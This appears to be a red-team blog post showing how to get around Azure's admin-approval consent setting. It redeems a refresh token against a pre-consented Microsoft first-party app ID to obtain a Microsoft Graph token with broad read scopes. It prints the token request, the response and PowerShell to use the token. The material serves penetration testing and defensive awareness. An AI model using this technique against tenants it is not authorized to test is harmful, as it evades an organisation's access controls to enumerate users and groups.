

---

layout: post
title: Bypass Azure Admin Approval Mode for User Consent Workflow When Enumerating
lang: en
lang-ref: bypass-azure-admin-approval-mode-enumeration
categories: [Windows security, Azure, Microsoft]
tags: [windows, cybersecurity, azure, microsoft, red team, pentesting]

---

# Bypass Azure Admin Approval Mode for User Consent Workflow When Enumerating

In this short blog post we will see a trick/technique to enumerate an Azure environment when the User App Consent Workflow is blocked and it is necessary to request permission to an administrator. After the administrator approves the consent the the user can user the application.

When this mode is set an we attempt to enumerate groups/users/anything else when Microsoft Graph or similar we will get a prompt to request an administrator to approve our use of the application. 

With this technique we leverage Microsoft well-known apps that has some permissions by default. Because they already has some permissions granted we can take advantage of that to get a token with the scopes we want, for example *Group.Read.All* [https://learn.microsoft.com/en-us/graph/permissions-reference#groupreadall](https://learn.microsoft.com/en-us/graph/permissions-reference#groupreadall) to enumerate groups.

## The Idea

During an Azure pentest, it's likely that the tenant has administrator approval mode enabled for external application permissions, hindering enumeration tasks—for example, through Microsoft Graph.

[](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203825.png){:target="_blank"}

When you try to enumerate groups, users, and other elements with Microsoft Graph, you'll find that it's not possible when using Microsoft's default application.

[](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011203833.png){:target="_blank"}

# Abusing well-known Microsoft Apps with permissions already granted

However, it's possible to leverage other default Microsoft applications, such as **SharePoint Online Web Client Extensibility** (08e18876-6177-487e-b8b5-cf950c1e598c), since it has certain permissions granted by default. It has the default permissions that can be seen in the following image. I think that there are other applications available, but I have been using **SharePoint Online Web Client Extensibility**. 

[](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204007.png){:target="_blank"}

Take a look at your tenant and you will find this application owned by Microsoft and with the permissions shown granted.

We can then request a token using this application and requesting, for example, *https://graph.microsoft.com/.default* scope.

Here is an example request and response.

```
POST /[REDACTED]/oauth2/v2.0/token HTTP/2
Host: login.microsoftonline.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Content-Length: 1544
Referer: [REDACTED]
Origin: [REDACTED]
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Te: trailers

client_id=08e18876-6177-487e-b8b5-cf950c1e598c&scope=https://graph.microsoft.com/.default&grant_type=refresh_token&client_info=1&x-client-SKU=msal.js.browser&x-client-VER=3.23.0&x-ms-lib-capability=retry-after, h429&x-client-current-telemetry=5|61,0,,,|,&x-client-last-telemetry=5|1|61,[REDACTED]|post_request_failed|1,0&client-request-id=[REDACTED]&refresh_token=[REDACTED]


HTTP/2 200 OK
Cache-Control: no-store, no-cache
Pragma: no-cache
Content-Type: application/json; charset=utf-8
Expires: -1
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
Access-Control-Allow-Origin: *
Access-Control-Expose-Headers: Content-Length,Content-Encoding,x-ms-request-id,x-ms-srs
Access-Control-Allow-Methods: POST, OPTIONS
P3p: CP="DSP CUR OTPi IND OTRi ONL FIN"
X-Ms-Request-Id: [REDACTED]
X-Ms-Ests-Server: 2.1.19005.9 - NEULR1 ProdSlices
X-Ms-Clitelem: 1,0,0,112993681.7929,
X-Ms-Srs: 1.P
Referrer-Policy: strict-origin-when-cross-origin
X-Xss-Protection: 0
Set-Cookie: [REDACTED]
Set-Cookie: [REDACTED]
Set-Cookie: [REDACTED]
Date: Thu, 10 Oct 2024 15:37:52 GMT
Content-Length: 6583

{"token_type":"Bearer","scope":"email openid profile https://graph.microsoft.com/AppCatalog.Read.All https://graph.microsoft.com/AppCatalog.Submit https://graph.microsoft.com/Calendars.Read https://graph.microsoft.com/Channel.ReadBasic.All https://graph.microsoft.com/EduAssignments.ReadBasic https://graph.microsoft.com/EduRoster.ReadBasic https://graph.microsoft.com/Files.Read https://graph.microsoft.com/Files.Read.All https://graph.microsoft.com/Group.Read.All https://graph.microsoft.com/Group-Conversation.ReadWrite.All https://graph.microsoft.com/GroupMember.Read.All https://graph.microsoft.com/InformationProtectionPolicy.Read https://graph.microsoft.com/People.Read https://graph.microsoft.com/People.Read.All https://graph.microsoft.com/Presence.Read.All https://graph.microsoft.com/Tasks.ReadWrite https://graph.microsoft.com/Team.ReadBasic.All https://graph.microsoft.com/TeamsAppInstallation.ReadWriteForTeam https://graph.microsoft.com/TeamsAppInstallation.ReadWriteSelfForTeam https://graph.microsoft.com/User.Read https://graph.microsoft.com/User.ReadBasic.All https://graph.microsoft.com/.default","expires_in":5149,"ext_expires_in":5149,"access_token":"ey[REDACTED]","refresh_token":"[REDACTED]","refresh_token_expires_in":319000,"id_token":"[REDACTED]","client_info":"ey[REDACTED]"}
```

With the received token we can then connect to *Microsoft Graph* and take advantage of that permissions.

```
PS C:\> $access_token = "ey..."
PS C:\> $secure_access_token = ConvertTo-SecureString $access_token -AsPlainText -Force
PS C:\> Connect-MgGrapth -AccessToken $secure_access_token
PS C:\> Get-MgContext | select -ExpandProperty Scopes
[...]
```

[](../../assets/img/bypass-azure-admin-approval-mode-enumeration/Pasted image 20241011204249.png){:target="_blank"}
